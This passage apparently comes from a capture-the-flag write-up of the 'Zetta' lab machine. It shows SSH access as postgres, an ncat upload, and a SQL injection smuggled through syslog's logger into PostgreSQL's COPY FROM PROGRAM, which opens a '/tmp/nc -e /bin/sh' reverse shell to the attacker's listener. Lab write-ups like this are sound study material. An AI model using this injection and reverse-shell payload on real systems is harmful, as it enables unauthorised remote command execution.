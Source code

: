 Now I can ssh in as postgres:

```

root@kali# ssh -i ~/id_rsa_generated postgres@10.10.10.156
Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
Last login: Sun Sep  1 11:07:12 2019 from 10.10.14.5
postgres@zetta:~$ 

```

#### Run a Reverse Shell

This is how jkr told me he planned for it to be solved in writing the box. I can run code directly from `postgres`. So I’ll write a script that will give me a shell. Since this box has limited options, the best path is to upload a copy of `nc`. (I played with trying to get a `python` reverse shell to stay connected more than 10 seconds, but couldn’t get it.) I’ll grab a [statically compiled ncat](https://github.com/ZephrFish/static-tools/blob/master/ncat) and upload it over `scp`:

```

root@kali# scp -i ~/id_rsa_generated nc roy@10.10.10.156:/tmp/nc

```

Now I can inject code that will call it:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM \$$/tmp/nc -e /bin/sh 10.10.14.5 443\$$; -- "                                                                                     

```

No errors, and a callback:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.156.
Ncat: Connection from 10.10.10.156:33972.
id
uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)

```

Except after 10 seconds, the connection dies, and errors:

```

2019-09-01 15:16:22.595 EDT [16482] postgres@syslog ERROR:  program "/tmp/nc -e /bin/sh 10.10.14.5 443" failed
2019-09-01 15:16:22.595 EDT [16482] postgres@syslog DETAIL:  child process exited with exit code 1
2019-09-01 15:16:22.595 EDT [16482] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM $$/tmp/nc -e /bin/sh 10.10.14.5 443$$; -- ','2019-09-0
1 19:16:12')

```

